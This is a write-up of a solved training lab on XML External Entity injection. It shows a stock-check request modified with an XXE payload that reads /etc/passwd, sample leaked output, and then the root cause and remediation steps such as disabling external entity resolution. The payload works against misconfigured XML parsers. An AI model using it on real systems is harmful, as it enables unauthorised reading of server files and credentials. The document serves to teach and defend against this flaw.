



# Exploiting XXE Using External Entities to Retrieve Files

## Lab Information

**Lab Name:** Exploiting XXE using external entities to retrieve files

**Category:** XML External Entity (XXE)

**Difficulty:** Apprentice

**Status:** Solved

---

## Objective

The application contains an XML parser that processes user-supplied XML input when checking product stock levels.

The objective is to exploit an XML External Entity (XXE) vulnerability to retrieve the contents of the server's `/etc/passwd` file.

---

## Vulnerability Description

The application accepts XML input and processes external entities without proper validation.

By defining an external entity that references a local file and then injecting that entity into the XML document, an attacker can force the server to disclose sensitive files from the underlying operating system.

---

## Steps to Reproduce

### Step 1: Intercept the Stock Check Request

1. Open any product page.
2. Click **Check stock**.
3. Intercept the XML request using Burp Suite.
4. Send the request to Repeater.

The original request appears similar to:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

---

### Step 2: Inject the XXE Payload

Modify the XML request and define an external entity that references the `/etc/passwd` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Send the modified request to the server.

### Screenshot



---

### Step 3: Observe File Disclosure

The server processes the external entity and replaces the entity reference with the contents of the requested file.

The response contains data similar to:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

This confirms that the application successfully retrieved and disclosed the contents of the `/etc/passwd` file.

### Screenshot



---

### Step 4: Verify Successful Exploitation

Once the file contents are returned in the response, the lab is automatically marked as solved.

### Screenshot



---

## Impact

Successful exploitation allows an attacker to read arbitrary files from the server's filesystem.

Depending on the environment, this may lead to:

* Disclosure of sensitive configuration files
* Exposure of application source code
* Leakage of credentials and secrets
* Information gathering for further attacks
* Potential remote compromise of the target environment

---

## Root Cause

The XML parser is configured to process external entities supplied by user input.

Because external entity resolution is enabled, attackers can reference local files and force the application to include their contents in server responses.

---

## Remediation

1. Disable DTD processing whenever possible.
2. Disable external entity resolution in XML parsers.
3. Use secure XML parsing libraries and configurations.
4. Validate and sanitize XML input before processing.
5. Implement the principle of least privilege for application accounts.

---

## Conclusion

This lab demonstrates a classic XML External Entity (XXE) vulnerability. By defining an external entity that references a local file and injecting it into the XML request, sensitive information stored on the server can be disclosed. Proper XML parser hardening and disabling external entity resolution are essential to prevent this type of attack.
